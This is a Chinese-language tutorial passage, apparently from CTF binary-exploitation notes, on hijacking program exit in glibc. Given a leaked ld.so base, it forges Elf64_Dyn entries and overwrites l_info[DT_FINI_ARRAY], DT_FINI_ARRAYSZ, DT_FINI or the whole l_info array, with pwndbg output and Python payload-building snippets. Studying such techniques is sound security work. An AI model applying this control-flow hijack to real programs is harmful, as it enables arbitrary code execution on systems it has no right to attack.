 ## 利用方法

**前提**：能泄露ld.so基址

### 1. 覆盖`l_info[DT_FINI_ARRAY]`和`l_info[DT_FINI_ARRAYSZ]`指针

程序自身、vdso、libc.so、ld.so的`l_info`数组地址均为可读写权限，且都可以通过ld.so的基址计算出来，以程序自身的`l_info`为例：

```gdb
pwndbg> vmmap &_rtld_global._dl_ns[0]._ns_loaded->l_info
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  36000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
►   0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  38000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 +0x1320
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
```

也就是说只要能泄露ld的地址就能伪造一个`fini_array`和指向`fini_array`的`Elf64_Dyn`结构体：

```python
fake_array = p64(target1) + p64(target2) + ... + p64(targetn)

fake_dyn = p64(26) + p64(fake_array_addr - base)
fake_dyn += p64(28) + p64(8*n)
```

之后将我们伪造的`Elf64_Dyn`结构体指针分别写入`l_info[DT_FINI_ARRAY]`和`l_info[DT_FINI_ARRAYSZ]`即可。

> [!tips]
>
> 1. `Elf64_dyn`中记录的是偏移，伪造时要减去对应`l_addr`存的基址；
> 2. 一般情况下`l_info[DT_FINI_ARRAYSZ] == 8`，只调用一个函数时不需要伪造；
> 3. 可以在`fini_array`伪造多个函数指针，对应地伪造`l_info[DT_FINI_ARRAYSZ] `即可。

### 2. 覆盖`l_info[DT_FINI]`指针

同理，伪造指向`fini`的`Elf64_Dyn`结构体，将伪造的`Elf64_Dyn`结构体指针写入`l_info[DT_FINI]`：

```python
fake_dyn = p64(13) + p64(target-base)
```

### 3. 覆盖`l_info`指针

再往上一层，直接伪造整个`l_info`指针数组：

```python
# 1. fake fini_array
fake_array = p64(target1) + p64(target2) + ... + p64(targetn)

fake_dyn = p64(26) + p64(fake_array_addr - base)
fake_dyn += p64(28) + p64(8*n)

fake_info = p64(0)*26 + p64(fake_dyn_addr) # l_info[DT_FINI_ARRAY]
fake_info += p64(0) + p64(fake_array_addr+0x10) # l_info[DT_FINI_ARRAYSZ]

# 2. fake fini
fake_dyn = p64(13) + p64(target-base)

fake_info = p64(0)*13 + p64(fake_dyn_addr) # l_info[DT_FINI]
```
